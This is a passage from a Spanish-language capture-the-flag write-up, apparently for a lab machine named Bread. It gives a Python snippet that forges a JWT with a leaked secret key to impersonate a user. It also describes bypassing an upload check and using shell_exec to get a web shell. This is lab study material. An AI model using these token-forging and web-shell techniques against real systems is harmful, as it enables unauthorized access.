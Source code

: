 ```php
    else{
        $_SESSION['role'] = $userdata[0]['position'];
<SNIP>
```
Con ayuda de jwt en python podemos forjar nuestro propio jwt y así tenemos los permisos para subir el archivo.

```shell
import jwt

data = { "data" : {'username': "paul"}}
secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'
algorithm = 'HS256'

token = jwt.encode(data, secret_key, algorithm=algorithm)
print(token)
```

![imagen10](/assets/images/Bread/bread10.png)

En este paso podemos hacer bypass al archivo zip interceptando la petición y luego cambiando la extensión a php, el contenido en un principio nos denegaba el uso de la función system por lo que cambiar por shell_exec y así pudimos obtener una web shell y entablarnos una conexión.

![imagen11](/assets/images/Bread/bread11.png)
